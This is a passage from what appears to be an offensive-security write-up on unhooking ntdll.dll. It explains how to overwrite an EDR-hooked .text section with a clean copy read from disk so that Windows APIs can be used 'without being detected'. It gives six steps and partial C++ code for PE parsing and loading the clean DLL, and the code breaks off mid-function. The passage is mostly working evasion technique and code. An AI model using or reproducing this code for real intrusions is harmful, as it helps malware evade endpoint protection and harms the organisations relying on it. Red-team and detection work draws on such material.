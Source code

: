 
### 4.2 Unhooking `ntdll.dll` (restoring `.text` section)
##### About
As I discussed in the [[#0. Objectives]] section about hooking/unhooking, it is "breaking" the link between the EDR and the Windows APIs so we can can and use them without being detected. 
The thing about these **inline hooks** is that they are typically injected in the `.text` section. So we can restore a copy of the clean `ntdll.dll` from disk and replacing its `.text` section.
##### Code
1. Load a clean copy of ntdll.dll from the disk.
2. Parse the PE headers for both ntdll.dll copies (in-memory and on-disk).
3. Locate the `.text` section.(where syscall stubs are stored)
4. Temporarily make the `.text` section writable using `VirtualProtect` or `NtProctectVirtualMemory`.
5. Overwrite the hooked memory region with the clean version.
6. Restore the memory protections to preserve normal behavior.

```cpp

#include <windows.h>
#include <winternl.h>
#include <iostream>
#include <vector>
#include <fstream>

// Gets RVA and size of the .text section
bool GetTextSectionInfo(BYTE* moduleBase, DWORD& rva, DWORD& size) {
    auto dos = (IMAGE_DOS_HEADER*)moduleBase;
    if (dos->e_magic != IMAGE_DOS_SIGNATURE) return false;

    auto nt = (IMAGE_NT_HEADERS*)(moduleBase + dos->e_lfanew);
    if (nt->Signature != IMAGE_NT_SIGNATURE) return false;

    auto section = IMAGE_FIRST_SECTION(nt);

    for (WORD i = 0; i < nt->FileHeader.NumberOfSections; ++i) {
        if (strncmp((char*)section->Name, ".text", 5) == 0) {
            rva  = section->VirtualAddress;
            size = section->Misc.VirtualSize;
            return true;
        }
        ++section;
    }

    return false;
}

// Loads ntdll.dll from disk into memory buffer
std::vector<BYTE> LoadCleanNtdllFromDisk() {
    WCHAR systemPath[MAX_PATH];
    GetSystemDirectoryW(systemPath, MAX_PATH);

    std::wstring fullPath = std::wstring(systemPath) + L"\\ntdll.dll";
    std::ifstream file(fullPath, std::ios::binary);

    if (!file) {
        std::cerr << "[-] Could not open ntdll.dll from disk.\n";
        return {};
    }

    file.seekg(0, std::ios::end);
    size_t fileSize = file.tellg();
    file.seekg(0, std::ios::beg);

```